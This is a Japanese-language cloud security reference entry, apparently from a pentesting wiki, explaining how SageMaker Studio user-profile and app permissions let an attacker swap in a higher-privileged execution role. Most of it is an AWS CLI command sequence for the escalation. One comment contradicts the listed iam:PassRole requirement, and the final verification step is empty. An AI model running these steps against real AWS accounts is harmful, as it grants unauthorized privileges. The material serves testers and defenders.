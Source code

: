 
### `sagemaker:UpdateUserProfile`, `iam:PassRole`, `sagemaker:CreateApp`, `sagemaker:CreatePresignedDomainUrl`, (`sagemaker:DeleteApp`)

SageMaker Studio User Profile を更新し、アプリを作成し、そのアプリへの presigned URL を作成する権限と `iam:PassRole` があれば、攻撃者は `ExecutionRole` を SageMaker のサービスプリンシパルが引き受け可能な任意の IAM ロールに設定できます。そのプロファイルで起動される新しい Studio アプリは入れ替えたロールで実行され、Jupyter ターミナルや Studio から起動したジョブを通じて対話的に権限を昇格させます。

> [!WARNING]
> この攻撃は、プロファイル内にアプリケーションが存在しないことを前提としています。もしアプリが存在すると、アプリ作成は次のようなエラーで失敗します: `An error occurred (ValidationException) when calling the UpdateUserProfile operation: Unable to update UserProfile [arn:aws:sagemaker:us-east-1:947247140022:user-profile/d-fcmlssoalfra/test-user-profile-2] with InService App. Delete all InService apps for UserProfile and try again.`
> もしアプリが存在する場合は、まずそれらを削除するために `sagemaker:DeleteApp` 権限が必要です。

手順:
```bash
# 1) List Studio domains and pick a target
aws sagemaker list-domains --query 'Domains[].{Id:DomainId,Name:DomainName}'

# 2) List Studio user profiles and pick a target
aws sagemaker list-user-profiles --domain-id-equals <DOMAIN_ID>

# Choose a more-privileged role that already trusts sagemaker.amazonaws.com
ROLE_ARN=arn:aws:iam::<ACCOUNT_ID>:role/<HighPrivSageMakerExecutionRole>

# 3) Update the Studio profile to use the new role (no iam:PassRole)
aws sagemaker update-user-profile \
--domain-id <DOMAIN_ID> \
--user-profile-name <USER> \
--user-settings ExecutionRole=$ROLE_ARN

aws sagemaker describe-user-profile \
--domain-id <DOMAIN_ID> \
--user-profile-name <USER> \
--query 'UserSettings.ExecutionRole' --output text

# 3.1) Optional if you need to delete existing apps first
# List existing apps
aws sagemaker list-apps \
--domain-id-equals <DOMAIN_ID>

# Delete an app
aws sagemaker delete-app \
--domain-id <DOMAIN_ID> \
--user-profile-name <USER> \
--app-type JupyterServer \
--app-name <APP_NAME>

# 4) Create a JupyterServer app for a user profile (will inherit domain default role)
aws sagemaker create-app \
--domain-id <DOMAIN_ID> \
--user-profile-name <USER> \
--app-type JupyterServer \
--app-name <APP_NAME>


# 5) Generate a presigned URL to access Studio with the new domain default role
aws sagemaker create-presigned-domain-url \
--domain-id <DOMAIN_ID> \
--user-profile-name <USER> \
--query AuthorizedUrl --output text

# 6) Open the URL in browser, navigate to JupyterLab, open Terminal and verify:
```